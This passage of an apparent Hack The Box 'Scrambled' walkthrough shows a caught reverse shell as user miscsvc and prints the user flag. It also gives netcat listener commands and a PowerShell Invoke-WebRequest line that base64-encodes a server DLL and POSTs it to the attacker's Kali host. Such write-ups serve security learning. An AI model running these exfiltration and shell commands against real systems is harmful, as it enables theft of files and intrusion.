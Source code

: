 Now switch to our other netcat listening on port 1338 to see we're connected as the miscsvc user:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# nc -nlvp 1338      
listening on [any] 1338 ...
connect to [10.10.14.198] from (UNKNOWN) [10.10.11.168] 56480
whoami
scrm\miscsvc
PS C:\Users\miscsvc\Documents>
```

## User Flag

Let's get the user flag before we move on:

```powershell
PS C:\Users\miscsvc\Documents> type ../desktop/user.txt
2be5fe50f02a0b315c9673e304702ff4
```

After a bit of looking around I found this:

```powershell
PS C:\> dir "Shares\IT\Apps\Sales Order Client"
    Directory: C:\Shares\IT\Apps\Sales Order Client
Mode                LastWriteTime         Length Name                                              
----                -------------         ------ ----                                              
-a----       05/11/2021     20:52          86528 ScrambleClient.exe                                
-a----       05/11/2021     20:52          19456 ScrambleLib.dll 
```

Right back at the start we found the Sales order app was running on port 4411. Here we have found the executable and dll used on the server side. Let's exfiltrate and have a look back on Kali. I used [this](https://codebeta.com/data-exfiltration-uploading-from-powershell) method using PowerShell.

## Data Exfiltration

Start netcat listenting and redirect the recieved data to a file:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# nc -l -p 80 > ScrambleLib.b64 
```

On the box send the DLL file over to Kali:

```powershell
Invoke-WebRequest -uri http://10.10.14.198/exfil.data -Method POST -Body ([System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\shares\it\apps\sales order client\ScrambleLib.dll")))
```

Switch back to Kali, ctrl-c the netcat listener then decode the file from base64:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# tail -1 ScrambleLib.b64 | base64 -d > ScrambleLib.dll

┌──(root㉿kali)-[~/htb/scrambled]
└─# file ScrambleLib.dll 
ScrambleLib.dll: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

